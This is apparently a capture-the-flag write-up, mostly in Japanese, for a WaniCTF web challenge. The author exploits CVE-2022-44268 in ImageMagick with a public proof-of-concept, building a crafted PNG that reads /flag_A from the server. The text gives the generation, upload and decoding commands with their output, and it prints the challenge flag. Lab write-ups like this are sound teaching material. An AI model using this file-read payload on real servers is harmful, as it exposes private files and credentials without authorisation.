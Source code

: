 # certified1:Web:226pts
最近流行りの言語を使った安全なウェブアプリが完成しました！  
We have released a secure web application using a state-of-the-art language!  
[https://certified-web.wanictf.org](https://certified-web.wanictf.org/)  

---

この問題にはフラグが2つ存在します。ファイル`/flag_A`にあるフラグをcertified1に、環境変数`FLAG_B`にあるフラグをcertified2に提出してください。  
There are two flags in this problem. Please submit the flag in file `/flag_A` to certified1 and one in the environment variable `FLAG_B` to certified2.  
Note: "承認, ワニ博士" means "Approved, Dr. Wani" in Japanese.  

[web-certified1.zip](web-certified1.zip)  

# Solution
問題文より2つフラグがあるようなので、初めに簡単そうな`/flag_A`の読み取りを目指す。  
URLにアクセスすると、承認欲求を満たせるサービスのようだ。  
![site1.png](site/site1.png)  
画像をあげると、承認される。  
![site2.png](site/site2.png)  
ソースを見てやるとrustで書かれているようで、アップロードしたファイルを以下のような処理に渡している。  
```rust
~~~
    let child = Command::new("sh")
        .args([
            "-c",
            "timeout --signal=KILL 5s magick ./input -resize 640x480 -compose over -gravity southeast ./overlay.png -composite ./output.png",
        ])
        .current_dir(working_directory)
        .stdin(Stdio::null())
        .stdout(Stdio::null())
        .stderr(Stdio::piped())
        .spawn()
        .context("Failed to spawn")?;
~~~
```
ImageMagickのようだ。  
Dockerfileを見ると以下の通りで7.1.0-51とある。  
```Dockerfile
~~~
ARG MAGICK_URL="https://github.com/ImageMagick/ImageMagick/releases/download/7.1.0-51/ImageMagick--gcc-x86_64.AppImage"
RUN curl --location --fail -o /usr/local/bin/magick $MAGICK_URL && \
    chmod 755 /usr/local/bin/magick
~~~
```
pngからpngの変換で、CVE-2022-44268のLFIが出ていたことを思い出す。  
バージョン的には7.1.0-49なはずだが、ひとまず[PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc.git)で刺して`/flag_A`を読み取ってみる。  
```bash
$ git clone https://github.com/Sybil-Scan/imagemagick-lfi-poc.git
$ cd imagemagick-lfi-poc/
$ python generate.py -f '/flag_A' -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /flag_A
   [>] PoC PNG generated > exploit.png
$ curl https://certified-web.wanictf.org/create -F file=@exploit.png -L -o res.png
$ identify -verbose res.png
~~~
    Raw profile type:

      42
464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f
793075217d0a
~~~
$ python -c 'print(bytes.fromhex("464c41477b3768655f736563306e645f663161395f31735f77343174316e395f6630725f793075217d0a"))'
b'FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}\n'
```
`/flag_A`を読み取れ、flagが得られた。  

## FLAG{7he_sec0nd_f1a9_1s_w41t1n9_f0r_y0u!}